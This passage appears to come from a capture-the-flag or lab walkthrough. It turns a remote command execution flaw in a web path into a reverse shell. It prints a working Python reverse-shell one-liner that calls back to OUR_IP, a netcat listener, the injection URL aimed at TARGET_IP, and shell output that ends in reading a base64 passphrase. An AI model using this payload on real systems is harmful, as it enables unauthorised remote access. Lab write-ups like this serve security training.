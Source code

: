 Since this allows remote execution of bash commands, we can go ahead and try a reverse shell.

### Reverse shell

We can generate a reverse shell one-liner using https://www.revshells.com/
To launch a reverse shell we need two ingredients:
- a command to launch on the remote server, which connects a reverse shell to a specific port (for example 9966)
- netcat listening on that same port

Let's generate a command that executes a python3 script to connect the reverse shell

NOTE: This command should be executed on the remote server 

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("OUR_IP",9966));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

NOTE: `OUR_IP` should be the IP address on the same subnet as the `TARGET_IP`

Now let's launch netcat to listen on port 9966

```bash
nc -lvnp 9966
```

and then go to our browser and paste the following URL

```
http://TARGET_IP/assets/index.php/p_/webdav/xmltools/minidom/xml/sax/saxutils/os/popen2?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("OUR_IP",9966));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'

```

The reverse shell should now have opened in the terminal where we launched netcat.
We are then able to use commands such as `ls` or `pwd` 


```
listening on [any] 5555 ...
connect to [OUR_IP] from (UNKNOWN) [TARGET_IP] 46926
$ ls
ls
images  index.php  styles.css
$ pwd
pwd

```

and eventually discover a `Hidden_Content` directory, which contains a passphrase (encoded in base64).

```
$ cd /var/www   
cd /var/www
$ ls
ls
Hidden_Content  html
$ cd Hidden_Content
cd Hidden_Content
$ ls
ls
passphrase.txt
$ cat passphrase.txt
cat passphrase.txt
QWxsbWlnaHRGb3JFdmVyISEhCg==

```
